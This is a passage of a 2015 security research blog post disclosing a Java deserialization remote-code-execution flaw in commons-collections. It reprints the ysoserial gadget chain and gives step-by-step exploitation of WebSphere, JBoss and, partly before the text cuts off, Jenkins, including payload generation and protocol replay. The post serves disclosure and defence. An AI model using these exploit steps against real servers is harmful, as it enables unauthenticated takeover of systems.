

# What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability.

By @breenmachine

## What?

The most underrated, underhyped vulnerability of 2015 has recently come to my attention, and I’m about to bring it to yours. No one gave it a fancy name, there were no press releases, nobody called Mandiant to come put out the fires. In fact, even though proof of concept code was released OVER 9 MONTHS AGO, none of the products mentioned in the title of this post have been patched, along with many more. In fact no patch is available for the Java library containing the vulnerability. In addition to any commercial products that are vulnerable, this also affects many custom applications.

In this post I’ll be dropping pre-authentication, remote code execution exploits that leverage this vulnerability for WebLogic, WebSphere, JBoss, Jenkins, and OpenNMS. All on the newest versions. Even more interesting, I’ll detail the process we went through to discover that these products were vulnerable, and how I developed the exploits. This should empower you to go out and find this same bug in your own software or commercial products that you or your clients use. All code can be found on the [FoxGlove Security Github](https://github.com/foxglovesec).

I’ll also be touching on why this bug is unlikely to go away soon. You can infuriate your developers and ops people by telling them to follow the instructions in “The Fix” section to remediate this in your environment. It will fix it, but it’s an admittedly ugly solution.

This post is going to be long. Because I’m a nice person, I made you an index. Feel free to skip straight to the exploits if you’ve got better things to do than read my rambling:

1. [Background ](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#background)– Unserialize vulnerabilities and why didn’t I hear about this sooner?
2. [The Vulnerability](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#thevulnerability) – Light details on the work of @frohoff and @gebl
3. [How Common is Commons?](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#commons) – How to find software that is vulnerable
4. [Exploit Dev for Skiddies](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#exploitdev) – The high level process to using this vulnerability
5. [Exploit 1 – WebSphere Application Server](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#websphere)
6. [Exploit 2 – JBoss Application Server](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#jboss)
7. [Exploit 3 – Jenkins](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#jenkins)
8. [Exploit 4 – WebLogic Application Server](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#weblogic)
9. [Exploit 5 – OpenNMS Through RMI](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#opennms)
10. [The Fix – How to Monkey Patch Your Servers](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#thefix)

## Background

### Unserialize Vulnerabilities for Dummies

Unserialize vulnerabilities are a vulnerability class. Most programming languages provide built-in ways for users to output application data to disk or stream it over the network. The process of converting application data to another format (usually binary) suitable for transportation is called serialization. The process of reading data back in after it has been serialized is called unserialization.

Vulnerabilities arise when developers write code that accepts serialized data from users and attempt to unserialize it for use in the program. Depending on the language, this can lead to all sorts of consequences, but most interesting, and the one we will talk about here is remote code execution.

### Previous Work

There have been a few Java unserialize vulnerabilities published in the past few years. One was discovered in the Spring framework, another in Groovy, and yet another in one of the other commons library, commons fileupload. All of these vulnerabilities were eventually fixed.

Unfortunately I can’t take credit for finding the vulnerability in the commons-collections library. Myself and a fellow researcher, [@dronesec](http://hatriot.github.io/) really dropped the ball on this one. Nearly two years ago, we decided we wanted 0-day in WebSphere application server. The project started off promising, with such a large code base and so much exposed, there had to be something vulnerable.

After some time searching we eventually got it into our heads that it would be amazing if we could find an unserialize vulnerability in Java or a common library. Why? Because EVERYTHING in the Java world uses object serialization, and almost everything can be coerced into accepting unsafe, user provided serialized data (see the exploits section of this post for proof).

We started down this path and found some cool leads in the world of Java unserialize vulnerabilities, some of which we’ll probably continue to look into. Unfortunately, we didn’t find anything leading to remote code execution.

### Java Serialization – How a Library Screwed You Over


#### SERIALIZATION BASICS

Unserialize vulnerabilities are totally language dependent. Here I’ll describe the basics of how it works in Java, and why an unserialize vulnerability in any of the hundreds of libraries your application loads, **even libraries you don’t use**, can ruin your day.

As described earlier, serialization is the process by which your programming language lets you convert data to a static, binary format, suitable for saving to disk or sending over the network.

Unserialization, or deserialization, is exactly the opposite. It takes binary data and converts it back to something that you can use. Since this is all a bit hand-wavy and high level, let’s take a look at some basic Java code that shows how someone might use serialization.

```
import java.io.ObjectInputStream;
import java.io.FileInputStream;
import java.io.ObjectOutputStream;
import java.io.FileOutputStream;
 
public class SerializeTest{
    public static void main(String args[]) throws Exception{
        //This is the object we're going to serialize.
        String name = "bob";
 
        //We'll write the serialized data to a file "name.ser"
        FileOutputStream fos = new FileOutputStream("name.ser");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        os.writeObject(name);
        os.close();
 
        //Read the serialized data back in from the file "name.ser"
        FileInputStream fis = new FileInputStream("name.ser");
        ObjectInputStream ois = new ObjectInputStream(fis);
 
        //Read the object from the data stream, and convert it back to a String
        String nameFromDisk = (String)ois.readObject();
 
        //Print the result.
        System.out.println(nameFromDisk);
        ois.close();
    }
}
```

The above code simply writes the String “bob” to disk using Java’s serializable interface, then reads it back in and prints the result. The following shows the output from running this code:

```
breens@us-l-breens:~/Desktop/SerialTest$ java SerializeTest
bob
breens@us-l-breens:~/Desktop/SerialTest$ xxd name.ser
0000000: aced 0005 7400 0362 6f62 ....t..bob
```

Notice the file on disk “name.ser” is binary, it has some non-printable characters. In particular the bytes “aced 0005” – these are the “magic bytes” you’ll see at the beginning of any Java serialized object.

Not particularly exciting, but a good demonstration of the basics of Java object serialization.

#### JAVA OBJECTS AND MORE COMPLEX SERIALIZATION

As an object oriented language, Java has a concept of Objects. Those unfamiliar with the concept can think of these like user defined data types. For example, in Java, a String is a type, and you can do things like this:

```
String name = "bob";
System.out.println(name.length());
//This prints out "3"
System.out.println(name.substring(0,2));
//This prints out "bo"
```

The methods “length” and “substring” aren’t magic. They’re part of the definition of the “String” object. As a programmer, you can define your own objects and methods.

Now that we’ve skipped about 6 months of “Intro to Java”, let’s skip a few more and go straight to custom object serialization. Consider the following code:

```
import java.io.ObjectInputStream;
import java.io.FileInputStream;
import java.io.ObjectOutputStream;
import java.io.FileOutputStream;
import java.io.Serializable;
import java.io.IOException;
 
public class SerializeTest{
 
    public static void main(String args[]) throws Exception{
        //This is the object we're going to serialize.
        MyObject myObj = new MyObject();
        myObj.name = "bob";
 
        //We'll write the serialized data to a file "object.ser"
        FileOutputStream fos = new FileOutputStream("object.ser");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        os.writeObject(myObj);
        os.close();
 
        //Read the serialized data back in from the file "object.ser"
        FileInputStream fis = new FileInputStream("object.ser");
        ObjectInputStream ois = new ObjectInputStream(fis);
 
        //Read the object from the data stream, and convert it back to a String
        MyObject objectFromDisk = (MyObject)ois.readObject();
 
        //Print the result.
        System.out.println(objectFromDisk.name);
        ois.close();
    }
}
 
class MyObject implements Serializable{
    public String name;
    private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException{
        in.defaultReadObject();
        this.name = this.name+"!";
    }
}
```

Let’s also take a look at the output when this runs:

```
breens@us-l-breens:~/Desktop/SerialTest$ java SerializeTest
bob!
breens@us-l-breens:~/Desktop/SerialTest$ xxd object.ser
0000000: aced 0005 7372 0008 4d79 4f62 6a65 6374 ....sr..MyObject
0000010: cf7a 75c5 5dba f698 0200 014c 0004 6e61 .zu.]......L..na
0000020: 6d65 7400 124c 6a61 7661 2f6c 616e 672f met..Ljava/lang/
0000030: 5374 7269 6e67 3b78 7074 0003 626f 62 String;xpt..bob
```

Okay, so what’s going on here, and why should we care? The code here is very similar to the basic one we first showed, except here the object being serialized is user-defined and called “MyObject”. The “MyObject” class implements the java “Serializable” interface, and defines a method called “readObject”.

Now looking at the output, we see something a little strange. Instead of the name we defined in the string, “bob”, getting printed to the console, we see that “bob!” got printed. Further, if we read the output from “xxd” to see what was written to disk, we don’t see any trace of the rogue exclamation point! Where did this come from?

The key here is the readObject method of course. When Java reads in a serialized object, the first thing it does after reading in the raw bytes is call the user-defined “readObject” method if it exists. In this case, the “readObject” method appended an exclamation point to the name.

#### WHAT COULD POSSIBLY GO WRONG?

Now let’s consider what we’ve learned so far in the context of Java web applications and application servers.

Java LOVES sending serialized objects all over the place. For example:

- In HTTP requests – Parameters, ViewState, Cookies, you name it.
- RMI – The extensively used Java RMI protocol is 100% based on serialization
- RMI over HTTP – Many Java thick client web apps use this – again 100% serialized objects
- JMX – Again, relies on serialized objects being shot over the wire
- Custom Protocols – Sending an receiving raw Java objects is the norm – which we’ll see in some of the exploits to come

Okay, so what you ask? Well what if we knew of an object that implemented a “readObject” method that did something dangerous? What if instead of appending an exclamation point to a user defined string, it could be massaged into running a user defined command on the operating system? That would be pretty bad.

Suppose such a vulnerable object existed, but wasn’t part of “core” Java, but instead just part of a library. Think about the requirements for exploitation:

- That library would need to be on the Java “classpath”
- The application would need to deserialize untrusted user input

We’ve already determined that requirement 2 is very often satisfied. Requirement 1 could be satisfied if we could find such a vulnerability in a commonly used library…

### One Vulnerability to Rule Them All

On January 28th, 2015, the slides for a talk titled “Marshalling Pickles” were [posted to slideshare](http://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles).The talk was given at AppSecCali by Gabriel Lawrence (@gebl) and Chris Frohoff (@frohoff). The world didn’t seem to care.

During their talk, Gabriel and Chris released an unserialize vulnerability in the “commons collections” library that results in remote code execution. This library is EXTREMELY popular in the Java world.

What this means is that any application or application framework that uses it (there are many), and unserializes untrusted data (again many) now has an open CVSS 10.0 vulnerability. This means:

- Defenders – Anyone on your network and potentially the Internet can compromise many of your application servers, including some appliances.
- Pentesters – This vulnerability is amazing. Runs in memory and isn’t going away anytime soon. Remote code execution in many many things including custom applications
- Checkbox Checkers – Uncheck the boxes, you’re probably not compliant anymore (and let’s be honest, you probably never were)

How do you fix it? After nearly a year, the commons-collections framework still has this bug outstanding. You need to manually fix the library by hand by removing class files that are leveraged by the exploit from the Jar file. See [“The Fix”](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#thefix) section of this post for more detailed information.

Further, Java libraries aren’t like other libraries we’ve seen these types of vulnerability in. For example OpenSSL is usually run as a shared library, so you can update all your RedHat boxes and magically you’re not vulnerable to HeartBleed anymore. Java libraries are a mess in comparison. Every application server comes with its own bundle of libraries, even worse, every application you deploy on the server often comes with its own set as well. To fix this completely, you need to find and update every single library individually.

## The Vulnerability

The unserialize vulnerability is in the commons-collections Java library. If you recall from the [Background](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#background) section, we were looking for a Java object that does something “dangerous” inside of its “readObject” method. This exploit follows a maze of objects, all nested inside each other with the end result being that unserializing the parent causes a command to be run on the system. The following is taken directly from the payload generating code [released on github](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java):

```
public InvocationHandler getObject(final String command) throws Exception {
    final String[] execArgs = new String[] { command };
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class }, new Object[] {
                "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class }, new Object[] {
                null, new Object[0] }),
            new InvokerTransformer("exec",
                new Class[] { String.class }, execArgs),
            new ConstantTransformer(1) };
 
    final Map innerMap = new HashMap();
 
    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
 
    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
 
    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
 
    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain    
             
    return handler;
}
```

The [original presentation](http://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles) was a little light on the details of how this works for those who aren’t too familiar with Java. Matthias Kaiser [recently gave a talk](https://www.youtube.com/watch?v=VviY3O-euVQ) and walked through it in a little more detail. I’ll avoid explaining it entirely as we’ll focus more on the applicability of unserialize exploits. The take-away from this is that the “Objects” you see in the code above are the ones required for exploitation. If those aren’t available, this exploit wont work.

The original researchers published [code on GitHub to generate payloads.](https://github.com/frohoff/ysoserial)

## How Common Is Commons?

Having a vulnerability in a commonly used library is one thing, but one of the reasons this may not have gotten the attention deserved is that it’s applicability wasn’t well demonstrated. This library is used all over the place. A quick search on GitHub for “commons-collection” yields over 1300 results.

This section will describe a simple process that you can use to identify whether an application might be vulnerable. I’ll use WebLogic as an example.

First, navigate to the directory where your target application is installed, for example, I have WebLogic installed in “/opt/OracleHome”. Next, we want to see if WebLogic comes bundled with the “commons-collections” library, to do this we’ll grep for one of the classes that we know is required by the exploit called “InvokerTransformer”:

```
root@us-l-breens:~# cd /opt/OracleHome/
root@us-l-breens:/opt/OracleHome# grep -R InvokerTransformer .
Binary file ./servers/AdminServer/tmp/.appmergegen_1446685824694_jenkins.war/META-INF/.WL_internal/cache/jenkins.war/.classinfos/.cache.ser matches
Binary file ./servers/AdminServer/tmp/.appmergegen_1446685824694_jenkins.war/WEB-INF/lib/commons-collections-3.2.1.jar matches
Binary file ./servers/AdminServer/tmp/_WL_user/jenkins/tw9byh/META-INF/.WL_internal/cache/jenkins.war/.classinfos/.cache.ser matches
Binary file ./servers/AdminServer/tmp/_WL_user/jenkins/3c5quy/war/WEB-INF/lib/commons-collections-3.2.1.jar matches
Binary file ./servers/AdminServer/tmp/.appmergegen_1446685776500_jenkins.war/META-INF/.WL_internal/cache/jenkins.war/.classinfos/.cache.ser matches
Binary file ./servers/AdminServer/tmp/.appmergegen_1446685776500_jenkins.war/WEB-INF/lib/commons-collections-3.2.1.jar matches
Binary file ./servers/AdminServer/tmp/.appmergegen_1446685837432_jenkins.war/META-INF/.WL_internal/cache/jenkins.war/.classinfos/.cache.ser matches
Binary file ./servers/AdminServer/tmp/.appmergegen_1446685837432_jenkins.war/WEB-INF/lib/commons-collections-3.2.1.jar matches
Binary file ./oracle_common/modules/com.bea.core.apache.commons.collections.jar matches
Binary file ./oracle_common/modules/com.bea.core.apache.commons.collections.jar.bck matches
```

The above shows that I have multiple instances of the vulnerable library available within WebLogic. The default one sits at “./oracle_common/modules/com.bea.core.apache.commons.collections.jar”. I also installed Jenkins on top of WebLogic, and it came with its own version of the library at “./servers/AdminServer/tmp/.appmergegen_1446685824694_jenkins.war/WEB-INF/lib/commons-collections-3.2.1.jar”.

At this point we’ve determined that the library MIGHT be available to our target at runtime, but this isn’t guaranteed. When the application is run, it may not actually load the JAR file. We’ll go on the assumption that if it’s there, it’s used.

If you’re responsible for defense, now might be a good time to tell dev or ops that they have an issue.

## Exploit Dev for Skiddies

So you found an application or application server that comes bundled with the vulnerable commons library? Then buckle up, this section in combination with the examples should give you enough to develop a working exploit.

### What Am I Looking For?

The first thing you need to do is find a part of the application that takes a serialized object as input. It would help if you knew what a serialized object looked like. Luckily they’re pretty easy to spot. Let’s take a look at the hexdump of some Jenkins traffic:
[](https://foxglovesecurity.files.wordpress.com/2015/10/objectexample.png)

There are two separate Java objects in the above screenshot. One is base64 encoded and can be seen in the rightmost column beginning with “rO0AB”.

The other is raw binary going over the wire, so we’ll have to look at the hex column in the middle. It begins with the bytes “ac ed 00 05 73 72”.

This is what serialized Java objects look like, they can be identified by this header. They always begin with “ac ed 00 05…” and when that is base64 encoded it comes out as “rO0…”. Keep an eye open for those two strings.

### How Do I Find It

Sometimes the front-end web interface will take serialized objects in HTTP parameters or cookies. In this case, they will be base64 encoded, so look out for the base64 string “rO0..” while running the application through an intercepting proxy like BurpSuite.

In my experience, the most common usage of serialized objects is not through HTTP, but other protocols running on different ports that you aren’t expected to talk to. To list the ports that your application is listening on try this:

```
root@us-l-breens:/opt# lsof -i -P | grep java | grep LISTEN
java       6923            root   53u  IPv6 2136625      0t0  TCP *:8080 (LISTEN)
java       6923            root   58u  IPv6 2136629      0t0  TCP *:8009 (LISTEN)
java       6923            root  125u  IPv6 2138434      0t0  TCP localhost:8005 (LISTEN)
java       6923            root  268u  IPv6 2138692      0t0  TCP *:33758 (LISTEN)
java       6923            root  272u  IPv6 2137594      0t0  TCP *:53289 (LISTEN)
```

The above shows the results from my Tomcat server running Jenkins. Those high numbered ports, and port 8009 might be interesting and would be worth Googling or otherwise looking into.

If you see port 1099, that’s Java RMI. RMI by definition just uses serialized objects for all communication. This is trivially vulnerable, as seen in our [OpenNMS exploit](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#opennms)

How do you actually stimulate traffic to these ports? Well they must be open for a reason. Open up Wireshark, see if anything that looks like a serialized object is going into them. Try running some of the scripts or command-line tools that come with the application or application server. For example Jenkins, WebLogic, and WebSphere all have commandline tools that use serialized objects as we’ll see later.

If the traffic is encrypted, you’re going to need to find a way to read it. Maybe setup a proxy that can handle SSL man in the middle like Burp and relay the traffic through that. An example of this can be seen in the WebSphere exploit.

### Found Serialized Data – Now What?

Now the fun begins.

First let’s generate a payload for testing. Go download the “ysoserial” tool from [GitHub](https://github.com/frohoff/ysoserial). Run it with something like this:

```
java -jar /path/to/ysoserial-0.0.2-SNAPSHOT-all.jar CommonsCollections1 'touch /tmp/pwned' > payload.out
```

Now when you’re testing, if you see a file created at /tmp/pwned, you know it ran. Obviously this payload isn’t going to get you very far as a pentester, if you’re doing this professionally, I’ll leave that part up to you.

I’m going to stick to a high level description here because in the next section we’ll get into all the nitty gritty technical details of what to do. The idea is that you want to take whatever you saw happening on the network, and replay that with ONE important change – you want to replace whatever the serialized object was with a payload generated by the “ysoserial” tool.

This sounds easy, and often is, but there can be some “gotchas” along the way. In the next section I’ll describe a few of these and how we dealt with them.

Now for the moment you’ve all been waiting for…

## Exploit 1 – WebSphere

WebSphere was the first target I picked for this exploit because I had some extensive experience mucking around with it. It also turned out to be one of the easier ones.

The entry point is on TCP port 8880. This is a management port and unlikely to be exposed to the Internet, but if you can get on the same network as a WebSphere box, it’s game over.

### Vulnerability Detection

One of the hardest parts of this whole process is just getting a copy of WebSphere up and running. If you can do that you’ll be fine. If you left everything default, you should be able to launch it like this:

```
root@us-l-breens:/opt/IBM/WebSphere/AppServer/profiles/AppSrv01/bin# ./startServer.sh server1
```

First let’s see if our vulnerable library is anywhere to be found:

```
root@us-l-breens:/opt/IBM# find . -iname "*commons*collection*"
./WebSphere/AppServer/optionalLibraries/Apache/Struts/1.1/commons-collections.jar
./WebSphere/AppServer/optionalLibraries/Apache/Struts/1.2.4/commons-collections.jar
./WebSphere/AppServer/plugins/com.ibm.ws.prereq.commons-collections.jar
./WebSphere/AppServer/systemApps/LongRunningScheduler.ear/JobManagementWeb.war/WEB-INF/lib/commons-collections.jar
./WebSphere/AppServer/systemApps/isclite.ear/commons-collections.jar
./WebSphere/AppServer/deploytool/itp/plugins/com.ibm.websphere.v85_2.0.0.v20120621_2102/wasJars/com.ibm.ws.prereq.commons-collections.jar
```

Check.

Next let’s take a look at what ports are open

```
root@us-l-breens:/opt/IBM/WebSphere/AppServer/profiles/AppSrv01/bin# lsof -i -P | grep LISTEN |grep java
java      15269            root  121u  IPv6 2352865      0t0  TCP *:8880 (LISTEN)
java      15269            root  125u  IPv6 2352866      0t0  TCP localhost:9633 (LISTEN)
java      15269            root  320u  IPv6 2353308      0t0  TCP *:9100 (LISTEN)
java      15269            root  322u  IPv6 2352862      0t0  TCP *:9403 (LISTEN)
java      15269            root  323u  IPv6 2352863      0t0  TCP *:9402 (LISTEN)
java      15269            root  325u  IPv6 2352864      0t0  TCP *:2809 (LISTEN)
java      15269            root  585u  IPv6 2350042      0t0  TCP *:9060 (LISTEN)
java      15269            root  586u  IPv6 2350043      0t0  TCP *:9080 (LISTEN)
java      15269            root  587u  IPv6 2350044      0t0  TCP *:9443 (LISTEN)
java      15269            root  588u  IPv6 2352868      0t0  TCP *:9043 (LISTEN)
```

Holy attack surface Batman! WebSphere by default listens on all interfaces on 10 TCP ports.

Some Googling about what the various ports are for led me to the tool “wsadmin.sh”. The “wsadmin” tool talk to WebSphere on port 8880 by default. Let’s see if we can get in the middle of that communication to see whats going on…

First we’ll edit the configuration file for wsadmin at “/opt/IBM/WebSphere/AppServer/profiles/AppSrv01/properties/wsadmin.properties”. There we’ll find the following setting:

```
#-------------------------------------------------------------------------
# The port property determines what port is used when attempting
# a connection.
# The default SOAP port for a single-server installation is 8880
#-------------------------------------------------------------------------
com.ibm.ws.scripting.port=8880
```

Let’s change that from 8880 to something like 1880. Next we’ll fire up Burpsuite and set the proxy configuration as shown:
[](https://foxglovesecurity.files.wordpress.com/2015/10/burpconfigwebsphere.png)

If you look at the settings carefully, Burp is listening on port 1880, the same port that we configured wsadmin to connect to. It’s going to then relay all traffic to “127.0.0.1:8880”, where WebSphere is listening for it. This lets us intercept and modify traffic from the wsadmin tool. With that in mind, let’s just run the “wsadmin.sh” script.

If you did it right, a pop up window will appear and ask you to accept the certificate generated by Burp (the tool uses SSL to encrypt communications), after that it will ask you to login. From here you can play around, send commands, and see in Burp what they are doing, as shown below:
[](https://foxglovesecurity.files.wordpress.com/2015/10/websphereactivity.png)

If you look closely at your own traffic, or the above screenshot, these are raw, serialized Java objects flying over the wire! Notice the “rO0…” – that indicates a base64 encoded object. So how do we exploit this?

### Exploit with Burp

Let’s send one of the interesting requests over to Burp Repeater.
[](https://foxglovesecurity.files.wordpress.com/2015/10/wsexploit-req.png)

We can see that a serialized object starts at the magic string “rO0….”. Let’s remove that base64 encoded chunk and replace it with a payload.

Since the original object was base64 encoded, our payload will have to be to – easy enough, using the payload you generated with the ysoserial tool, do the following:

```
breens@us-l-breens:~/Desktop$ cat payload.out | base64 -w 0 > payload.out.b64
```

Now, in Burp Repeater, just go to where you deleted the old base64 chunk, right click, choose “Paste from file”, and load “payload.out.b64”.

Hit “Go” and watch the shells roll in! That easy!

## Exploit 2 – JBoss

If you thought WebSphere was easy, wait until you see this one. I chose JBoss second because, again I was familiar with it, and I knew where I could send serialized objects.

A well known vulnerability in JBoss involves interacting with the “JMXInvokerServlet” that is VERY often left open so anyone can talk to it. JMX is a Java management protocol, the JMXInvokerServlet in JBoss lets you interact with it over HTTP. It relies on Java serialized objects for communication – thats just how it works.

Interestingly the JMXInvokerServlet that this exploit requires to work is very often left open to the Internet and has a history of issues.

### Vulnerability Detection

JBoss can run on any port, but the default install runs on port 8080. I also just happen to know that the JMXInvokerServlet sits at the URI path http://localhost:8080/invoker/JMXInvokerServlet . If you visit it in a web browser, it will actually send you a raw Java object back, a pretty good indication that it’s going to be vulnerable to this.

Interestingly this vulnerability is very often exposed to the Internet. Since the JMXInvokerServlet runs on the same port as the main web application, it wont be blocked by a firewall like some of the other exploit methods detailed in this post.

Given that we have a pretty good hunch about the JMXInvokerServlet communicating with serialized objects, let’s see if the commons collection jar file is available…

```
root@us-l-breens:/opt/jboss-6.1.0.Final# grep -R InvokerTransformer .
Binary file ./server/standard/deployers/jsf.deployer/MyFaces-2.0/jsf-libs/commons-collections-3.2.jar matches
Binary file ./server/all/deployers/jsf.deployer/MyFaces-2.0/jsf-libs/commons-collections-3.2.jar matches
Binary file ./server/default/deployers/jsf.deployer/MyFaces-2.0/jsf-libs/commons-collections-3.2.jar matches
Binary file ./common/deploy/admin-console.war/WEB-INF/lib/commons-collections-3.2.jar matches
Binary file ./common/lib/commons-collections.jar matches
Binary file ./client/commons-collections.jar matches
```

### Exploitation With Burp

Remember how last time we used Burp Repeated to “Paste from file” into the part of the request that housed the object? Well this time, the request ONLY consists of an object. Just create the POST request shown in the image, and use “Paste from file” to paste in the binary generated by “ysoserial”.

The only thing you have to make sure of is that your HTTP headers are correct. I scraped these out of some old code I had, I forget where I had gotten them originally. The following shows the complete payload that got us RCE:
[](https://foxglovesecurity.files.wordpress.com/2015/10/jbossrce.png)

## Exploit 3 – Jenkins

EDIT: Jenkins has responded very quickly and released the [following mitigation.](https://jenkins-ci.org/content/mitigating-unauthenticated-remote-code-execution-0-day-jenkins-cli)

Jenkins is something we see on internal penetration tests all the time. It also usually stores quite a bit of intellectual property, which makes this really exciting.

The exploit requires you to have access to a high numbered TCP port running on the Jenkins machine, so it’s unlikely this one will work from the Internet.

### Vulnerability Detection

To start, I fired up a local instance of the application running in Tomcat and used grep to see if it had a copy of the vulnerable library:

```
root@us-l-breens:/opt/apache-tomcat-8.0.28# grep -R "InvokerTransformer" .
Binary file ./webapps/ROOT/WEB-INF/lib/commons-collections-3.2.1.jar matches
```

With that confirmed, I ran “lsof” to see what ports it was listening on:

```
root@us-l-breens:/opt# lsof -i -P | grep java | grep LISTEN
java       6923            root   53u  IPv6 2136625      0t0  TCP *:8080 (LISTEN)
java       6923            root   58u  IPv6 2136629      0t0  TCP *:8009 (LISTEN)
java       6923            root  125u  IPv6 2138434      0t0  TCP localhost:8005 (LISTEN)
java       6923            root  268u  IPv6 2138692      0t0  TCP *:33758 (LISTEN)
java       6923            root  272u  IPv6 2137594      0t0  TCP *:53289 (LISTEN)
```

The high numbered ports were interesting and we decided to explore this a bit further. My coworker Justin (@jstnkndy) found that Jenkins actually comes bundled with a command line tool which was located at “./webapps/ROOT/WEB-INF/jenkins-cli.jar”. The tool was run with “java -jar ./webapps/ROOT/WEB-INF/jenkins-cli.jar”

We fired up WireShark and took at a look at the traffic the tool generated when it was used. It did go to that high numbered port, but unfortunately it was SSL encryped… Bummer.

A quick review of the code for the client program revealed how it worked. The relevant code snippet can be seen below:

```
protected CliPort getCliTcpPort(String url) throws IOException {
    URL _url = new URL(url);
    if (_url.getHost()==null || _url.getHost().length()==0) {
        throw new IOException("Invalid URL: "+url);
    }
    URLConnection head = _url.openConnection();
    try {
        head.connect();
    } catch (IOException e) {
        throw (IOException)new IOException("Failed to connect to "+url).initCause(e);
    }
 
    String h = head.getHeaderField("X-Jenkins-CLI-Host");
    if (h==null)    h = head.getURL().getHost();
    String p1 = head.getHeaderField("X-Jenkins-CLI-Port");
    if (p1==null)    p1 = head.getHeaderField("X-Hudson-CLI-Port");   // backward compatibility
    String p2 = head.getHeaderField("X-Jenkins-CLI2-Port");
 
    String identity = head.getHeaderField("X-Instance-Identity");
 
    flushURLConnection(head);
    if (p1==null && p2==null) {
        // we aren't finding headers we are expecting. Is this even running Jenkins?
        if (head.getHeaderField("X-Hudson")==null && head.getHeaderField("X-Jenkins")==null)
            throw new IOException("There's no Jenkins running at "+url);
 
        throw new IOException("No X-Jenkins-CLI2-Port among " + head.getHeaderFields().keySet());
    }
 
    if (p2!=null)   return new CliPort(new InetSocketAddress(h,Integer.parseInt(p2)),identity,2);
    else            return new CliPort(new InetSocketAddress(h,Integer.parseInt(p1)),identity,1);
```

The first thing the Java client does when launched is try to find out what port the CLI listener is running on – apparently this is dynamic and randomized every boot. This can be seen on lines 14 and 16 in the snippet above. We captured the actual HTTP request that does this in Burp and it is shown below:

[](https://foxglovesecurity.files.wordpress.com/2015/10/burpjenkins.png)

Apparently there are two versions of the Jenkins CLI protocol, and only version 2 supports SSL. On line 30, we can see that if Jenkins fails to get the header for the port for CLI version 2, called “X-Jenkins-CLI2-Port”, it falls back to version 1. This was easy to influence, we just deleted it from the response in Burp. Predictably Jenkins fell back to the unencrypted CLI version 1!

Looking at the traffic in wireshark, we immediately saw the serialized objects being exchanged as shown in the following screenshot:
[](https://foxglovesecurity.files.wordpress.com/2015/10/objectexample.png)

### Exploit Development

#### PROCESS

Now that we knew it was using serialized objects for communication, we had to replicate the first few messages in the protocol. I chose python to do this because it’s quick and easy to work with.

Let’s take a look at the first few packets sent from the CLI client to the Jenkins server in Wireshark:
[](https://foxglovesecurity.files.wordpress.com/2015/10/firstjenkinspackets.png)

The red is from the client to the server, the blue is the servers reply. This is a custom “Jenkins” protocol, so we have to play nicely, we can’t just go sending objects right at it like we did with WebSphere and JBoss. To accomodate this, we need to send the first packet which consists of the following:

```
00000000  00 14 50 72 6f 74 6f 63  6f 6c 3a 43 4c 49 2d 63 ..Protoc ol:CLI-c
00000010  6f 6e 6e 65 63 74                                onnect
```

Then we need to read the response back from the server, we can just throw it away if we want to, but we have to at least give it a chance to reply. Then we can send our second packet. Notice from the screenshot that this packet contains a serialized object (two infact). The first object is base64 encoded, which makes it a little easier to work with, so that’s the one we’ll be replacing with our payload. The object I’m talking about is made up of the following bytes, starting with “rO0”

```
00000036  3d 3d 3e 72 4f 30 41 42  58 4e 79 41 42 70 6f 64 ==>rO0AB XNyABpod
00000046  57 52 7a 62 32 34 75 63  6d 56 74 62 33 52 70 62 WRzb24uc mVtb3Rpb
